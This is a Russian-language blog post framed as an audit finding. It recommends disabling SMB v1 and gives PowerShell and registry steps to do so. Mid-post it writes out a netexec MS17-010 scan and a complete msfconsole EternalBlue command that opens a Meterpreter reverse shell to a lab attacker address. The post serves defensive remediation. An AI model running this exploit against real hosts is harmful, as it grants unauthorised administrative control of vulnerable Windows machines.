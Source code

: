 ```yaml
---
layout: post
title:  "SMB v1"
categories: jekyll update
image: Remote_Exploit_MS17010_.jpg
---
```


Об ограничении использования протокола SMB v1

#### Недостаток
На ряде объектов ЛВС используется небезопасный протокол SMB v1.

#### Рекомендации
Ограничить использование в ЛВС протокола SMB v1. Рассмотреть возможность перехода на протоколы SMB v2/3.

#### Комментарии
Включенный SMBv1 — это серьезная угроза безопасности. Этот устаревший протокол разработан более 30 лет назад, и его уязвимости широко известны злоумышленникам. 

Если SMBv1 активен, злоумышленник может:  
**1. Использовать эксплойты**:  
   - Один из самых известных примеров — **EternalBlue**, эксплойт, который стал основой для распространения таких атак, как **WannaCry** и **NotPetya**. Эти атаки нанесли ущерб на миллиарды долларов, выводя из строя больницы, корпорации и государственные учреждения.  
   - Эксплойт позволяет злоумышленнику получить полный доступ к системе без авторизации.  

**2. Распространение по сети**:  
   - Атаки, использующие SMBv1, часто имеют червеподобный характер, что означает, что после компрометации одного устройства злоумышленник может быстро проникнуть на другие системы в вашей сети.  
   - Это особенно опасно для корпоративных сетей, где устройства могут быть взаимосвязаны.  

**3. Кража данных**:  
   - С помощью доступа через SMBv1 злоумышленник может перехватывать файлы, пароли и другую конфиденциальную информацию, что приводит к утечкам данных.  

**4. Запуск удаленного кода**:  
   - SMBv1 позволяет злоумышленнику запускать вредоносные программы или команды, фактически захватывая управление над системой.  

Для злоумышленника работающий SMBv1 — это как старая дверь с разбитым замком: она легко открывается, даже если остальная часть дома защищена.

#### Почему это критично?  
Атаки через SMBv1 особо опасны потому, что:  
- **Быстрая масштабируемость**: Одна уязвимая система может привести к компрометации всей сети.  
- **Невидимость**: В некоторых случаях атаки могут проходить незамеченными, особенно в poorly monitored environments.  
- **Непрямые последствия**: Утечка данных или отказ оборудования могут привести к финансовым потерям, репутационным рискам или даже уголовным расследованиям.  

Используя эксплойт EternalBlue злоумышленник может получить административный доступ к хосту с включенным протоколом SMB v1.

```
netexec smb 192.168.56.202 -M ms17-010
```

![](/images/smb_v1/Pasted%20image%2020241208155045.png)

```
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.56.202; set LHOST 192.168.56.200; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

![](/images/smb_v1/Pasted%20image%2020241208155510.png)

#### Что делать?  
Отключение SMBv1 — это простой шаг, который может предотвратить катастрофу.  

**1. Проверить текущий статус SMBv1**:  
   На Windows-сервере или рабочей станции выполните команду в PowerShell:  
   ```powershell
   Get-WindowsFeature -Name FS-SMB1
   ```  
   Если SMBv1 включен, статус будет отображаться как *Installed*.  

**2. Отключить SMBv1**:  
   Выполните следующую команду в PowerShell:  
   ```powershell
   Disable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol" -NoRestart
   ```  

**3. Перезагрузите систему**, чтобы изменения вступили в силу.  

**4. Если в сети есть старые устройства, зависящие от SMBv1 (например, устаревшие сканеры), разработайте план их модернизации или замены.** 

#### Что видит злоумышленник после отключения SMBv1?  
Когда SMBv1 отключен:  
- При сканировании порта 445 я увижу, что SMB работает только на современных версиях (SMBv2 или SMBv3). Эти версии имеют встроенные механизмы защиты, такие как шифрование и аутентификация.  
- Эксплойты для SMBv1, такие как EternalBlue, больше не работают, что устраняет один из самых популярных методов атаки.  
- Моя атака замедлится или станет невозможной. Это заставит меня искать более сложные и менее очевидные уязвимости.

![](/images/smb_v1/Pasted%20image%2020241208162809.png)

В Windows 7 SMB v1 можно отключить  создав в реестре параметр `DWORD (32 бита)` в ветке реестра `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`

#### Вывод:  
Оставлять SMBv1 включенным — это как оставить открытой дверь для злоумышленников. Вы теряете контроль над безопасностью сети, подвергая себя финансовым, репутационным и техническим рискам.  
Отключение SMBv1 — это быстрый и важный шаг, который моментально повышает защиту вашей инфраструктуры.  

Дополнительные ресурсы:

1. https://learn.microsoft.com/ru-ru/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
2. https://habr.com/ru/companies/servermall/articles/331906/
3. https://codeby.school/blog/informacionnaya-bezopasnost/ekspluataciya-uyazvimostey-klassa-ms17-010

Картинка

https://evilsaint.com/article/remote-exploit-ms17-010/index.html